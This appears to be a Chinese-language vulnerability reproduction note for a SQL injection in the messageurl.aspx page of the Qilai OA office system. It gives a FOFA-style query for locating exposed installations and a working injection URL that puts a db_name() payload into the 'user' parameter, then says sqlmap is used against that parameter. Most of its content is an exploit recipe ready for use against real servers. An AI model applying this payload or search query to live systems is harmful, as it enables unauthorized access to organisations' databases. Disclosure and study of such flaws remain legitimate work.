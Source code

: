 # 启莱OA messageurl.aspx SQL注入漏洞

# 启莱OA messageurl.aspx SQL注入漏洞

## 漏洞描述

启莱OA messageurl.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
启莱OA
```

## 网络测绘

```
app="启莱OA"
```

## 漏洞复现

登录页面如下

![qilai-2-1](/images/qilai-2-1.png)

存在SQL注入的文件为 messageurl.aspx

```plain
http://xxx.xxx.xxx.xxx/client/messageurl.aspx?user=' and (select db_name())>0--&pwd=1
```

![qilai-2-2](/images/qilai-2-2.png)

使用SQLmap对参数 user 进行注入

![qilai-2-3](/images/qilai-2-3.png)

